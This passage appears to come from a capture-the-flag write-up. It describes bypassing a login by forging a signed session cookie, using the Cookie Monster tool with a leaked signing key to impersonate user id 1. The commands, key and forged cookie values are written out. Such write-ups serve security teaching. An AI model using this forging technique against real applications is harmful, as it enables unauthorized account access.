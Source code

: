{{< /highlight >}}

Based on the source code for the authentication route, passwords are stored as MD5 hex digests, and the user object used for validation follows a similar pattern as in the previous route, dependent on Prisma's [findFirst()](https://www.prisma.io/docs/reference/api-reference/prisma-client-reference#findfirst) function.

### Login bypass

From the login request, I know that the cookie set after logging in contains a user object with `id` and `username` parameters among other things. Furthermore, since the home route appears to rely solely on this user object, manipulating that could potentially give to the home page of authenticated users.

```json
"user":
{
	"id": 16,
	"username": "abraxas"
}
```

Since I didn't have usernames, I tried iterating through IDs. Testing for `id=1` with the user object as `{"user": {"id":1}}` and signing it using Cookie Monster, I gained access to WESLEY's home page → BOLA.

```bash
> echo '{"user": {"id":1}}' > user.json
> ~/Tools/cookie-monster/bin/cookie-monster.js -e -f user.json -k 8929874489719802418902487651347865819634518936754 -n download_session
               _  _
             _/0\/ \_
    .-.   .-` \_/\0/ '-.
   /:::\ / ,_________,  \
  /\:::/ \  '. (:::/  `'-;
  \ `-'`\ '._ `"'"'\__    \
   `'-.  \   `)-=-=(  `,   |
       \  `-"`      `"-`   /

[+] Data Cookie: download_session=eyJ1c2VyIjp7ImlkIjoxfX0=
[+] Signature Cookie: download_session.sig=CIdiz217BVhPMCi2PN8zK0mYK0k
```

With the crafted cookie, I can access `WESLEY`'s homepage, who has two uploaded files. Unfortunately, neither file yielded valuable information, only revealing the associated username.
